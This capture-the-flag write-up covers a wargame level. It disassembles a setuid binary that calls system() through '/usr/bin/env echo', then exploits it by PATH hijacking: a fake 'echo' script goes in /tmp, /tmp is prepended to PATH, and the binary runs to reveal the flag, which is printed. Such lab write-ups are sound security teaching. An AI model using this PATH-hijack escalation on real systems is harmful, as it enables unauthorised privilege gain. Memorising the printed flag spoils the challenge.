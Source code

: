 # level03

- We log as `level03`

- A `level03` file is located inside the home directory of level03

- This is an executable file with special rights:
	>`-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03`

- Trying to execute it being logged as `level03` will execute it as `flag03`

- Uppon execution it displays `Exploit me`

- We dissasemble the binary using gdb, here is the `main` function:
```asm
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     and    $0xfffffff0,%esp
   0x080484aa <+6>:     sub    $0x20,%esp
   0x080484ad <+9>:     call   0x80483a0 <getegid@plt>
   0x080484b2 <+14>:    mov    %eax,0x18(%esp)
   0x080484b6 <+18>:    call   0x8048390 <geteuid@plt>
   0x080484bb <+23>:    mov    %eax,0x1c(%esp)
   0x080484bf <+27>:    mov    0x18(%esp),%eax
   0x080484c3 <+31>:    mov    %eax,0x8(%esp)
   0x080484c7 <+35>:    mov    0x18(%esp),%eax
   0x080484cb <+39>:    mov    %eax,0x4(%esp)
   0x080484cf <+43>:    mov    0x18(%esp),%eax
   0x080484d3 <+47>:    mov    %eax,(%esp)
   0x080484d6 <+50>:    call   0x80483e0 <setresgid@plt>
   0x080484db <+55>:    mov    0x1c(%esp),%eax
   0x080484df <+59>:    mov    %eax,0x8(%esp)
   0x080484e3 <+63>:    mov    0x1c(%esp),%eax
   0x080484e7 <+67>:    mov    %eax,0x4(%esp)
   0x080484eb <+71>:    mov    0x1c(%esp),%eax
   0x080484ef <+75>:    mov    %eax,(%esp)
   0x080484f2 <+78>:    call   0x8048380 <setresuid@plt>
   0x080484f7 <+83>:    movl   $0x80485e0,(%esp)
   0x080484fe <+90>:    call   0x80483b0 <system@plt>
   0x08048503 <+95>:    leave  
   0x08048504 <+96>:    ret
```

- We can see multiple function calls but the interesting one is `system` :
	>`0x080484fe <+90>:    call   0x80483b0 <system@plt>`

- The line above moves the argument of `system` on top of the stack:
	>`0x080484f7 <+83>:    movl   $0x80485e0,(%esp)`

- Let's display the content of `0x80485e0` with `(gdb) x/s 0x80485e0` :
	>`0x80485e0:       "/usr/bin/env echo Exploit me"`

- We can see that the `echo` command is vulnerable to `PATH` environment variable manipulation because it is called using `/usr/bin/env` which forces the binary to be found inside `PATH` variable

- We create a shell script named `echo` inside `/tmp` which contains:
	>`getflag`

- We add `/tmp` at the front of `PATH` with:
	>`export PATH=/tmp:$PATH`

- We run `./level03` inside the home directory of `level03`

- We get the flag `qi0maab88jeaj46qoumi7maus`
